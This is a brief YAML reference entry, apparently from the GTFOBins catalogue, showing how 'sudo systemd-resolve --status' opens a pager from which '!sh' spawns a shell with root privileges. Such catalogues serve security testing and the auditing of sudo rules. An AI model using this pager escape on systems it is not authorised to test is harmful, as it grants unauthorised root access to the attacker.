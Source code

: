 ```yaml
---
functions:
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo systemd-resolve --status
        !sh
---
```


